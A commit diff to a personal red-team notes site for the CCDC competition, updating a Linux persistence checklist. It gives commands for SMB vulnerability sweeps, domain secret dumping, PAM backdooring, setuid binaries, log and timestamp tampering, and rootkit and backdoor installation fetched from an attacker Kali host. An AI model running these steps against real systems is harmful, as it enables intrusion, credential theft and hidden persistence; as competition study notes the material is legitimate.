

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 1864 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -11,6 +11,7 @@
   - Quickly nmap scan for port 445, as this will almost always be our gateway in
   - `sudo nmap -T4 -min-hostgroup 96 -p 53,445 --open {IP_range} | grep -oE '([0-9]{1,3}\.){3}[0-9]{1,3}' | sort -u > smb_ips.txt`
     - `-min-hostgroup` will divide the range up into 96 sup parts
+    - Instead of `-T4`, we can specify `--max-retries 2 --max-rtt-timeout {double_time_to_ping}ms --min-rate 300`
   - Then, check SMB IPs with `while read -r line; do nxc smb $line -u '' -p '' -M zerologon -M printnightmare -M smbghost -M ms17-010; done < smb_ips.txt`
     - If we get a zerologon hit, run `zerologon.py` and then `impacket-secretsdump -just-dc -no-pass {domain}/{machine_name}:@{DC_IP}`
       - e.g. `impacket-secretsdump -just-dc -no-pass 'corp.local/TEST-DC$@10.10.0.162'` (if DC name is TEST-DC)
@@ -78,38 +79,45 @@
 **Linux:**
 - Todo:
   - Create a big zipped folder containing all necessary files (attacker and client)
+    - This will be our kali-setup zip to download
   - Write a persistence script that does the following
     - Gets all relevant files from kali
-    - Backdoors PAM and adds the master password
-    - Permits root login: `sed -i '/PermitRootLogin/c\PermitRootLogin yes' /etc/ssh/sshd_config && touch -d "May 26 2020" /etc/ssh/sshd_config`
-    - Adds a sliver script somewhere in the system
-    - Add suid dash: `chmod u+s $(which dash) && touch -d "April 16 2018" $(which dash)`
+    - Backdoors PAM (adds the master password and logs new passwords)
+    - Permits root login: `sed -i '/PermitRootLogin/c\PermitRootLogin yes' /etc/ssh/sshd_config `
+    - Adds a Prism/boopkit service
+      - Hidden files lends itself EXTREMELY well to services
+        - However, once running, we can see it with `systemctl | grep "reptile"` so might need to set the overall prefix to something like "cpu"
+        - May also need to hide the prism/boopkit PID
+      - boopkit is better, but only works on 5.x+
+    - Add suid `ip`, `chroot`, and `ssh-keygen` (move `ssh-keygen` to `/usr/lib/openssh/`)
+      - `chmod u+s $(which env) $(which ip) $(which chroot)`
     - Runs prism (on startup)
-    - Hides all of the above with a rootkit
+    - Hides all of the above with a rootkit (and changing dates with something like `touch -d "May 26 2020" {file}`)
+      - This will likely require an internet connection or for our Kali to be able to provide necessary packages
       - If kernel 4 or below, use reptile:
         - `wget {kali_IP}:{port}/reptile.tar.gz && tar -xvf reptile.tar.gz && cd Reptile-master`
         - `apt install gcc make build-essential linux-headers-$(uname -r)`
         - Default options seem good, so `sed -i 's/reptile/redteam/g' config/defconfig && make defconfig && make && make install`
-      - If kernel 5 or above,
-      - Will need `sysctl kernel.ftrace_enabled=1` and also check if `make` and `gcc` exist
-        - We need to look into installing these (among other packages) by pointing the installation to our IP instead of the internet
+      - If kernel 5 or above, use BDS
+        - Will need `sysctl kernel.ftrace_enabled=1` and also check if `make` and `gcc` exist
     - Clear history: ` history -c && rm -f $HISTFILE`
       - Having space is important, seems to prevent logging even on newer kernels
-- [PANIX](https://github.com/Aegrah/PANIX)
-  - One-stop shop for a persistence script, this thing is NICE
-    - `./panix.sh --suid --default` gives SUID to dash, python, and find
-      - `dash -p`, `find . -exec /bin/sh -p \; -quit`, or `python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
-- [Prism](https://github.com/andreafabrizi/prism)
-  - Sends out a reverse shell after sending a ping with a certain payload
-    - After specifying variables in C code itself, build with `gcc -DDETACH -DNORENAME -Wall -s -static -o {outfile} prism.c`
-    - Run as root on victim, then to trigger do `sudo python2 sendPacket.py {target} {password_set} {attacker_IP} {attacker_port}`
-  - This seems kinda cool, but wouldn't be anything special unless we could somehow hide the connection with a rootkit
-- [Caraxes](https://github.com/ait-aecid/caraxes/)
-  - Seems to be pretty good for 5.14-6.11
-  - Will need to uncomment the `hide_module()` function
-  - This seems pretty good for hiding files - we can set the word to hide in `rootkit.h`
-- [TripleCross](https://github.com/h3xduck/TripleCross)
-  - Tested on 5.x kernels, so maybe a bit less reliable
+- [Boopkit](https://github.com/krisnova/boopkit)
+  - Sneaky amazing backdoor that functions via back checksum TCP packets
+  - `wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.4.1.tar.gz`
+    - `apt install clang make bpftool libbpf-dev gcc-multilib llvm libxdp-dev libpcap-dev`
+  - Then, run on victim with `boopkit -i {network_interface} -q`
+    - We need to find a way to get the default network interface
+  - Then, after making on Kali, can run `boopkit-boop -rhost {target} -rport 3535 -c '{command}' -lhost {kali_IP} -lport {kali_port}`
+  - Listens on TCP 3545
+- [BDS](https://github.com/bluedragonsecurity/bds_lkm_ftrace)
+  - Good compatibility, works on 6.x tested
+    - Let's check out the non-ftrace one and userland one?
+    - We need to slightly modify to allow hiding arbitrary ports/sockets
+    - Removed `rc.local` persistence - non-sneaky, and borks systems with checks for kernel tainting in startup
+  - Supports hiding files, backdoors, privescs, and hiding network connections (though only its connection, but we can easily change that)
+  - Config
+    - Can be specified in `kernelspace/includes/bds_vars.h`
 - [Reptile](https://web.archive.org/web/20250703011339/https://github.com/f0rb1dd3n/Reptile/archive/refs/heads/master.zip)
   - Absolutely nutty rootkit for 2.6.x, 3.x, or 4.x, seems to be the go-to
     - Has persistent, detection evasion, a nice management interface
@@ -120,6 +128,9 @@
   - Install:
     - `apt install build-essential linux-headers-$(uname -r)`
     - `make menuconfig`, `make`, and `make install`
+  - Bugs:
+    - Reptile will hide more stuff than necessary in affected directories
+    - Until we fix this, we can rename `/reptile` to `/reptiled`
   - Usage:
     - `/reptile/reptile_cmd {show/hide}` to show/hide all hidden files
     - `/reptile/reptile_cmd root` to get root
@@ -131,13 +142,13 @@
         - Actually, having some trouble getting it working with cron jobs
       - However, ssh seems resistant. Can't seem to permit root logins with a hidden line or add an hidden authorized keys file
     - Couldn't get kali-side build working, so we can use prism for the shell
-- [Diamorphine](https://github.com/m0nad/Diamorphine/tree/master)
-  - Very nice compatibility across versions, pretty simple rootkit
-  - Usage
-    - Hide/show rootkit with `kill -63 {any_pid}`
-    - Become root with `kill -64 {any_pid}`
-    - Hide process with `kill -31 {pid_to_hide}`
-    - Hide files by modifying `MAGIC_PREFIX` in `diamorphine.h`
+- [Caraxes](https://github.com/ait-aecid/caraxes/)
+  - Seems to be pretty good for 5.14-6.11, but a bit lacking on functionality
+    - This one would make a nice starting place for building our own
+  - Will need to uncomment the `hide_module()` function
+  - Good for hiding files - we can set the word to hide in `rootkit.h`
+- [PANIX](https://github.com/Aegrah/PANIX)
+  - One-stop shop for lots of persistence methods, this thing is a great reference
 
 
 ## Domain Persistence
--- a/notes.html
+++ b/notes.html
@@ -62,13 +62,13 @@
     <li><a href="./webappnotes/APIs.html">API Testing</a></li>
     <li><a href="./webappnotes/Clickjacking.html">Clickjacking</a></li>
     <li><a href="./webappnotes/CSRF.html">Cross-site Request Forgery</a></li>
+    <li><a href="./webappnotes/XSS.html">Cross-site Scripting</a></li>
     <li><a href="./webappnotes/DependencyConfusion.html">Dependency Confusion</a></li>
     <li><a href="./webappnotes/GraphQL.html">GraphQL</a></li>
     <li><a href="./webappnotes/LLMs.html">Testing LLMs</a></li>
     <li><a href="./webappnotes/PathTraversal.html">Path Traversal Attacks</a></li>
     <li><a href="./webappnotes/SQLi.html">SQL Injection</a></li>
     <li><a href="./webappnotes/Websockets.html">Testing Websockets</a></li>
-    <li><a href="./webappnotes/XSS.html">Cross-site Scripting</a></li>
     <li><a href="./webappnotes/miscellaneous.html">Miscellaneous Web Notes</a></li>
 
   </ul>
```
Also changed, not shown: markdown/ADExploitation.md (+6 -3 lines), markdown/LinuxPrivilegeEscalation.md (+1 -0 lines), markdown/Metasploit.md (+1 -1 lines).
